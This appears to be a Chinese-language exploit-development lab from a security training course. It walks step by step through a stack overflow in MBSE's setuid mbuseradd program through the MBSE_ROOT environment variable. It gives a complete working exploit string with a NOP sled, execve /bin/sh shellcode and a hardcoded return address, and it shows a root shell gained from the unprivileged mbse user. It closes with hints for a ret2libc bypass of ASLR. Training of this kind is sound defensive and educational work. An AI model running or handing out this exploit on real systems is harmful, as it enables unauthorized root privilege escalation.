``` export MBSE_ROOT=`python -c 'print "A" *4096'` gdb ./mbuseradd (gdb) run 1 2 3 4 Starting program: /opt/mbse/bin/mbuseradd 1 2 3 4 *** Program received signal SIGSEGV, Segmentation fault. [Switching to Thread -1209874240 (LWP 22192)] 0x2f414141 in ?? () ```
``` (gdb) run 1 2 3 4 Starting program: /opt/mbse/bin/mbuseradd 1 2 3 4 Program received signal SIGSEGV, Segmentation fault. [Switching to Thread -1209874240 (LWP 22247)] 0x41414141 in ?? () ```
将MBSE_ROOT的大小改为4096个A字符时，我们覆写了返回指针的3个字节。将其改为4097个A字符时，我们可以完全覆写4字节的返回指针，并获得EIP的控制权。后续步骤应该已经比较熟悉了，此时你可以自行继续完成练习，如果需要继续跟着教程走，请翻到下一页。提示：使用Metasploit的pattern_create.rb脚本会对此有所帮助。

## 构建我们的脚本
- 位于/home/deadlist/mbse目录下的shellcode文件
- 插入B字符作为返回指针的占位符
- 后续跟上500个NOP指令和你的shellcode
``` root@deadlist-desktop:/opt/mbse/bin# cat /home/deadlist/mbse/mbse shellcode.txt \x31\xc0\x31\xdb\x29\xc9\x89\xca\xb0\x46\xcd\x80\x29\xc0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x54\x89\xe1\xb0\x0b\xcd\x80 ```
``` root@deadlist-desktop:/opt/mbse/bin# export MBSE_ROOT=`python -c 'print "A"*4093 + "BBBB" + "\x90"*500 + "\x31\xc0\x31\xdb\x29\xc9\x89\xca\xb0\x46\xcd\x80\x29\xc0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x54\x89\xe1\xb0\x0b\xcd\x80"'```
你的/home/deadlist/mbse目录下有一个名为mbse shellcode.txt的文件，其中包含用于获取root shell的shellcode。将环境变量设置为4093个A字符（到达返回指针的位置），随后跟4个B字符作为返回指针的占位，再跟上500个NOP指令，最后跟上你的shellcode即可。
``` cat /home/deadlist/mbse/mbse shellcode.txt ```
``` export MBSE_ROOT=`python -c 'print "A" *4093 + "BBBB" + "\x90" * 500 + "\x31\xc0\x31\xdb\x29\xc9\x89\xca\xb0\x46\xcd\x80\x29\xc0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x54\x89\xe1\xb0\x0b\xcd\x80"' ```

## 定位返回地址
- 触发段错误时EIP值为0x42424242
- 执行x/20x $esp +6000命令可命中我们的shellcode
``` (gdb) run 1 2 3 4 Starting program: /opt/mbse/bin/mbuseradd 1 2 3 4 (no debugging symbols found) Program received signal SIGSEGV, Segmentation fault. [Switching to Thread -1209874240 (LWP 22446)] 0x42424242 in ?? () ```

运行我们的利用脚本时，EIP尝试执行0x42424242地址处的代码，触发了预期的段错误。随后我们执行x/20x $esp +6000命令来定位到NOP sled的底部。shellcode的起始位置在右下角，左侧高亮的0xbffff20是一个合适的返回指针着陆点。现在使用该地址作为返回指针再次尝试。

## 完成脚本构建
- 使用我们猜测的返回地址运行利用脚本：
- 成功！
- 现在需要以mbse用户的身份测试该利用脚本
``` root@deadlist-desktop:/opt/mbse/bin# export MBSE_ROOT=`python -c 'print "A"*4093 + "\x20\xff\xff\xbf" + "\x90"*500 + "\x31\xc0\x31\xdb\x29\xc9\x89\xca\xb0\x46\xcd\x80\x29\xc0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x54\x89\xe1\xb0\x0b\xcd\x80"'` root@deadlist-desktop:/opt/mbse/bin# ./mbuseradd 1 2 3 4 # ```
``` Try our exploit while still logged in as root: `export MBSE_ROOT=`python -c 'print "A" *4093 + "\x20\xff\xff\xbf" + "\x90"*500 + "\x31\xc0\x31\xdb\x29\xc9\x89\xca\xb0\x46\xcd\x80\x29\xc0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x54\x89\xe1\xb0\x0b\xcd\x80"'` `./mbuseradd 1 2 3 4` ```
如演示所示，我们的利用脚本已经生效！现在需要以非特权用户的身份测试该利用脚本。

## 提权
- 注销root用户
- 执行su命令切换到mbse用户
- 导出环境变量并运行程序
``` deadlist@deadlist-desktop:~$ su mbse Password: mbse@deadlist-desktop:/home/deadlist/mbse$ cd /opt/mbse/bin mbse@deadlist-desktop:~/bin$ export MBSE_ROOT=`python -c 'print "A" *4093 + "\x20\xff\xff\xbf" + "\x90"*500 + "\x31\xc0\x31\xdb\x29\xc9\x89\xca\xb0\x46\xcd\x80\x29\xc0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x54\x89\xe1\xb0\x0b\xcd\x80"' mbse@deadlist-desktop:~/bin$ ./mbuseradd 1 2 3 4 # whoami root ```

最后，我们需要注销root用户，并通过su命令切换到mbse用户。输入对应密码后，确保你处于/opt/mbse/bin目录下，之后导出包含正确返回地址的利用脚本对应的MBSE_ROOT环境变量，运行程序即可获得root shell！如果这一步的练习失败，请检查你是否正确完成了每一步操作。另外，栈的布局可能和你登录root用户时有细微差异，可以通过调整NOP sled的大小来适配返回地址，指向NOP sled靠后的位置通常能获得更好的效果。本次练习到此结束。


## 第4天 训练营
### 附加挑战
- **附加挑战：**
- 使用你的Kubuntu Pangolin虚拟机
- 将你660.4文件夹中的ret2libc_aslr程序复制到你的Kubuntu Pangolin虚拟机中
- 通过验证`/proc/sys/kernel/randomize_va_space`文件中的值为2，确保ASLR已启用
- 以root身份运行课程笔记中的命令，将可执行文件标记为SUID root
- 这个挑战需要你独立完成，但下一页会提供提示
如果学生提前完成学习任务，有时会要求额外的挑战。这个挑战可以在白天等待其他同学完成实验、在延长学习时段，或者课程结束后完成。本次练习需要使用你的Kubuntu Precise Pangolin 12.04虚拟机。你需要将ret2libc_aslr二进制文件复制到你的Kubuntu虚拟机中。复制完二进制文件后，请以root身份运行以下命令：
``` root@deadlist:~# echo 2 > /proc/sys/kernel/randomize_va_space root@deadlist:~# chown root:root /home/deadlist/ret2libc_aslr root@deadlist:~# chmod 7555 /home/deadlist/ret2libc_aslr ```
本挑战需要独立完成，但下一页会提供相关提示。你也可以联系导师寻求帮助。

## 附加挑战提示
- 针对该程序运行checksec.sh脚本，查看使用了哪些漏洞缓解措施
- 针对该程序运行strings工具，查看静态内存中是否存在有用的内容
- 每次运行库都会被随机化，但函数动态链接时，我们需要通过哪个表？
- 不要忘记ret2libc，它能够将整个漏洞利用流程串联起来！再次提醒，本挑战需要独立完成，不过这里有一些提示能帮你找准方向。如果你还是无法确定具体操作步骤，可以联系你的导师。
- 尝试运行checksec.sh脚本，查看程序中使用了哪些漏洞缓解措施。你应该能发现它不是用PIE编译的程序，这一点是否有帮助？
- 针对程序运行strings工具，查看静态内存中是否存在可能作为提示、对漏洞利用有用的内容。
- 你应该注意到库的随机化范围是2^12，但我们如何访问动态链接的函数？鉴于该程序不是PIE程序，对应的表会被随机化吗？
- 最后，ret2libc是你完成本次挑战的好帮手。

## 训练营结束
- 入侵Linux平台上的公共MBSE程序
- 通过暴力破解绕过ASLR
- 附加挑战：结合ASLR的ret2libc利用
本次训练营中，你完成了在Linux Kubuntu Gutsy虚拟机上成功利用MBSE程序的实操，还通过暴力破解的方式绕过了ASLR。此外还有一个附加选项：在非PIE文件中，通过system函数的PLT条目和.data段中的字符串指针绕过ASLR。
